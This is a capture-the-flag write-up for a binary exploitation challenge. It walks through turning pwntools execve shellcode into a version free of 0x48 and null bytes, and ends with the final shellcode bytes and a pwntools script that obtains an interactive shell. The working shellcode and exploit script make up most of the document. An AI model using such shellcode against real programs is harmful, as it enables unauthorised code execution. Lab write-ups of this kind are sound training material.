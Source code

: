 ```yaml
---
slug: level-1
title: Level 1
authors: [nguyen]
tags: [Binary Exploitation]
---
```


Level 1

<!--truncate-->

## The Challenge

File can be downloaded [here](/files/level_1/level-1) (Right click and open in new tab).

The goal of this challenge is to provide shellcode that gets executed for a shell.

## Analysis

I ran the executable and sent random output just to see what would happen. When I sent 'h', I received an output `Illegal instruction (core dumped)`. Since it interpreted 'h' as an instruction, I could try to feed it an input that would be a valid instruction.

Using ghidra, I looked in main and found that the executable reads into a buffer of 4096 bytes and then executes it directly in memory. The value `0x48` is treated as a bad byte so I had to create shellcode that would avoid `0x48` and null bytes.

`0x48` is a REX prefix that generally appears in shellcode where certain operations performed on 64 bit registers are used. I used the shellcode from pwntools as a template to start with.

```python3
shellcode = asm(shellcraft.amd64.linux.sh())
```

The above code provides the following shellcode:

```asm
/* execve(path='/bin///sh', argv=['sh'], envp=0) */
/* push b'/bin///sh\x00' */
push 0x68
mov rax, 0x732f2f2f6e69622f
push rax
mov rdi, rsp
/* push argument array ['sh\x00'] */
/* push b'sh\x00' */
push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi /* 0 */
push rsi /* null terminate */
push 8
pop rsi
add rsi, rsp
push rsi /* 'sh\x00' */
mov rsi, rsp
xor edx, edx /* 0 */
/* call execve() */
push SYS_execve /* 0x3b */
pop rax
syscall
```

Throwing it into an assembler reveals that there are a few `0x48` bytes that need to be replaced.

```asm
0:  6a 68                   push   0x68
2:  48 b8 2f 62 69 6e 2f    movabs rax,0x732f2f2f6e69622f
9:  2f 2f 73
c:  50                      push   rax
d:  48 89 e7                mov    rdi,rsp
10: 68 72 69 01 01          push   0x1016972
15: 81 34 24 01 01 01 01    xor    DWORD PTR [rsp],0x1010101
1c: 31 f6                   xor    esi,esi
1e: 56                      push   rsi
1f: 6a 08                   push   0x8
21: 5e                      pop    rsi
22: 48 01 e6                add    rsi,rsp
25: 56                      push   rsi
26: 48 89 e6                mov    rsi,rsp
29: 31 d2                   xor    edx,edx
2b: ff 34 25 00 00 00 00    push   QWORD PTR ds:0x0
32: 58                      pop    rax
33: 0f 05                   syscall
```

I replaced mov operations with pushes and pops in order to get rid of the bad bytes. I also replaced line 2b with `push 0x3b` for the syscall code for execve.

```asm
push 0x68
mov r15, 0x732f2f2f6e69622f
push r15
push rsp
pop rdi

push 0x1010101 ^ 0x6873
xor dword ptr [rsp], 0x1010101
xor esi, esi
push rsi
push 8
pop r14
add r14, rsp
push r14
push rsp
pop rsi
xor edx, edx
push 0x3b
pop rax
syscall
```

Now there are no more bad bytes.

`"\x6A\x68\x49\xBF\x2F\x62\x69\x6E\x2F\x2F\x2F\x73\x41\x57\x54\x5F\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xF6\x56\x6A\x08\x41\x5E\x49\x01\xE6\x41\x56\x54\x5E\x31\xD2\x6A\x3B\x58\x0F\x05"`

I use pwntools to send the payload to the program and successfully obtain a shell.

```python
#!/usr/bin/env python3

"""
Toast's submission for the challenge level-1.

This script can be used in the following manner:
python3 ./solve.py

Returns:
    An interactive shell
"""

from pwn import *

exe = ELF("./level-1")

context.binary = exe
context.log_level = 'info'
context.terminal = ['gnome-terminal', '-e']
context.arch = 'amd64'

def conn():
    '''Establish the connection to the process, local or remote.
    '''

    io = process([exe.path])
    return io


def main():
    '''Return the flag.
    '''

    with conn() as io:
        shellcode = b"\x6A\x68\x49\xBF\x2F\x62\x69\x6E\x2F\x2F\x2F\x73" + \
                    b"\x41\x57\x54\x5F\x68\x72\x69\x01\x01\x81\x34\x24" + \
                    b"\x01\x01\x01\x01\x31\xF6\x56\x6A\x08\x41\x5E\x49" + \
                    b"\x01\xE6\x41\x56\x54\x5E\x31\xD2\x6A\x3B\x58\x0F\x05"
        io.send(shellcode)
        io.interactive()


if __name__ == '__main__':
    main()
```

![Shell output](/img/level_1/shell.png)

## References

[https://defuse.ca/online-x86-assembler.htm#disassembly](https://defuse.ca/online-x86-assembler.htm#disassembly)

[https://staffwww.fullcoll.edu/aclifton/cs241/lecture-instruction-format.html](https://staffwww.fullcoll.edu/aclifton/cs241/lecture-instruction-format.html)

[https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix](https://wiki.osdev.org/X86-64_Instruction_Encoding#REX_prefix)
